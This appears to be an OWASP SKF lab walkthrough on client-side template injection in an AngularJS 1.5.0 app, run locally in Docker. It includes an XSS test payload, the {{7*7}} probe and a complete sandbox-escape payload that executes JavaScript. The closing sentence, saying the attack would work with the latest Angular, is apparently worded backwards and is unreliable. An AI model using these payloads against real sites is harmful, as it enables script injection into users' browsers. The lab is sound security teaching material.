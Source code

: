 # Client Side Template Injection - CSTI

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:js-csti
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:js-csti
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

#### Step 1

This application has a very cool interface, powered by a very cool framework that, every time the page is rendered, will scan the page for template expressions and evaluate them.

Before we deep dive in the exploitation phase, let's introduce how a template engins renders elements inside the page and how we can detect a Client Side Template Injection. If we look at the `index.ejs` page in the source code, we can see that a variable `<%= CSTI %>` is used in the page

```html
<center><p style="font-size:2em;"><%= CSTI %></p></center>
```

#### Step 2

This can look like a XSS, but if we try to inject HTML tags we get a nice print-out from the application. Let's try!

We are going to use the same payload of the XSS lab

```html
">
<script>
  alert("XSS");
</script>
```

Unfortunately the alert does not trigger :(

![](../../.gitbook/assets/nodejs/CSTI/1.png)

This is becuase AngularJS sanitize by default the input that will be reflected in the page.

#### Step3

How do we get XSS?

AngularJS parses and renders every expression between curly brackets. So if we pass an arithmentic expression, such as `{{7*7}}`, we should expect `49` as a result.

!![](../../.gitbook/assets/nodejs/CSTI/2.png)

Bingo!!

## Exploitation

Now that we know that the frontend is vulnerable to a client side template injection, we want to do more than just printing out nice numbers.

Because Angular uses parsers to evaluate every expression in curly brackets, sanitize HTML values (through ng-bind-html attributes, if explicitly) and uses a sandbox to avoid JavaScript code to call functions outside of the Angular scope object, we need to go though the following steps to have a successful exploit:

- break the sanitizer
- escape the sandbox
- forge a working payload

In this case, we do not need to find new way to do this, but we can just see if we can re-use a payload available for our version of Angular.

#### Step 1

We want to identify wich version is used in the frontend. If we look at the source code we can see that in the `<head>` tag Angular v1.5.0 is loaded.

```html
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.5.0/angular.js"></script>
```

We need a payload that will allow us to inject JavaScript commands in the DOM and escape the sandbox, and, of course, pop up an alert box (just as a PoC)

#### Step 2

Looking at possible payloads we found a working one for Angular <= 1.5.0

```JavaScript
{{ c=''.sub.call;b=''.sub.bind;a=''.sub.apply; c.$apply=$apply;c.$eval=b;op=$root.$$phase; $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString; C=c.$apply(c);$root.$$phase=op;$root.$digest=od; B=C(b,c,b);$evalAsync(" astNode=pop();astNode.type='UnaryExpression'; astNode.operator='(window.X?void0:(window.X=true,alert(1)))+'; astNode.argument={type:'Identifier',name:'foo'}; "); m1=B($$asyncQueue.pop().expression,null,$root); m2=B(C,null,m1);[].push.apply=m2;a=''.sub; $eval('a(b.c)');[].push.apply=a; }}
```

We are not going in the details on how the exploit works, but you can refer to a nice blog post from PortsWigger. What we can say, is that the escape, breaks out of the sandbox (we are not in the scope object anymore) and allows us to execute JS in the DOM itself.

As we can see, our `alert(1)` is present in the payload. If we copy it in our input box we see that the full payload is reflected 'as-it-is', but the JavaScript is executed

![](../../.gitbook/assets/nodejs/CSTI/3.png)

Now we are able to execute JavaScript code in our DOM.

This would work if we would have used the latest version of Angular and escaped malicious characters.

## Additional sources

{% embed url="https://portswigger.net/blog/dom-based-angularjs-sandbox-escapes" %}

{% embed url="https://docs.angularjs.org/guide/security" %}
